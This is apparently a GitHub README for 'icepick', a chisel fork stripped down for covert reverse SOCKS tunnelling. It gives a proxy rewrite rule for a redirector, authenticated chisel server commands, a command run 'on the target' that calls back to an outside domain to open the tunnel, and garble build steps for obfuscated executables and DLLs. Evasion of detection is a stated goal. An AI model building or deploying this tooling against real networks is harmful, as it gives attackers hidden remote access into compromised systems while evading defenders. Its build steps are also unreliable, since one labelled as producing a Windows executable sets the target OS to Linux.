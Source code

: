 # icepick

icepick is a slimmed down version of chisel meant only for reverse socks. It includes most of the client functionality, but has had all logging/errors and other uneeded elements removed. 

Warning: This means it won't print errors, which might be annoying should you want to troubleshoot it client-side.

## Possible Improvements to make
(Feel free to suggest alternative ideas)

* Using utls or utls-light to reduce golang TLS ioc's
* Server-side component (to reduce flags etc)
* Multiple URI support
* IOC reduction
 - User-Agent from gorilla/websockets is "Go-http-client\/1.1", obfuscate for now by using HTTPS.
  

## Usage

First install golang and any necessary depedencies as shown in the next section.

On your proxy add the following:

```
        RewriteCond %{HTTP_USER_AGENT} ""Go-http-client\/1.1"" [NC]
        RewriteCond %{HTTP:CONNECTION} Upgrade$ [NC]
        RewriteCond %{HTTP:UPGRADE} ^WebSocket$ [NC]
        RewriteRule ^ ws://IP_OF_RT20X:LISTENING_PORT [NC,L,P]
```
Then run chisel with a command like so:

```sh
./chisel server -v -p 443 --auth "test:P@ssw0rd!" --reverse --tls-domain validtlsdomain.com
#or
./chisel server -v -p 8080 --auth "test:P@ssw0rd!" --reverse <optional:other tls opts>
```

Now on the target run:

```cmd
.\icepick_win_amd64.exe -auth "test:P@ssw0rd!" https://veri-serv.com R:socks

```

## Install/Compile to executable
As this is a copy of chisel, you can use the existing server-side chisel binary (unless there are major version changes).

Download and install Go 1.19 from https://golang.org/doc/install

**CROSS COMPILING IS EASY**
Just literally change GOOS=<OSOFCHOICE> to your desired platform.

### linux elf on windows: 
```ps1
choco install mingw -y
go get -v github.com/jpillora/chisel
go install mvdan.cc/garble@latest
GOOS=linux GOARCH=amd64 garble -tiny build -trimpath -ldflags="-s -w" -o icepick_lin_amd64 main.go
```

### windows exe on linux:
```sh
sudo apt install mingw-w64
go get -v github.com/jpillora/chisel
go install mvdan.cc/garble@latest

cd cmd/agent
GOOS=linux GOARCH=amd64 garble -tiny build -trimpath -ldflags="-s -w" -o icepick_win_amd64.exe main.go
```

### windll:

```
garble -tiny build --buildmode=c-shared --ldflags="-s -w" cmd/agentdll/main.go    

```
**NOTE:**
Mingw is I believe only required for some cross compilation when CGO is used.
e.g. if you want to make a dll you need to do the following:
```sh
GOOS=windows GOARCH=amd64 garble -tiny build --buildmode=c-shared -trimpath -ldflags="-s -w" -o icepick_win_amd64.dll main.go
```
